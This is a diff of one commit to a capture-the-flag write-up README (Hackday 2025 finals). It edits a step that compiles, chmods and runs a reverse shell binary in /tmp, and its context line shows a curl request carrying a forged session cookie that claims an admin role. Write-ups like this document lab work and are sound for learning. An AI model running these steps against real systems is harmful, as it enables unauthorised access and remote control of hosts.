

Before and after one commit to Ax8457/WriteUPs, a Markdown page: Hackday2025_finals/TheHearthOfGearford/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

`````diff
--- a/Hackday2025_finals/TheHearthOfGearford/README.md
+++ b/Hackday2025_finals/TheHearthOfGearford/README.md
@@ -108,6 +108,10 @@ curl -b "session_token=eyd1c2VybmFtZSc6J2d1ZXN0JywgJ3JvbGUnOidhZG1pbid9./3b1GSdZ
 gcc -o /tmp/revshell /tmp/revshell.c
 chmod +x /tmp/revshell
 /tmp/revshell
+#then a curl as in the previous command to load it, to grant it execution right and then lauchn it
+````
+<p align="justify">If no error happended during compilation a revshell might have been received on the listening port opened </p>
 
-#then use curl as in the previous command to load it
-````
+<p align="center">
+<img src="Screenshots/S11.png" style="width: 50%">
+</p>
`````
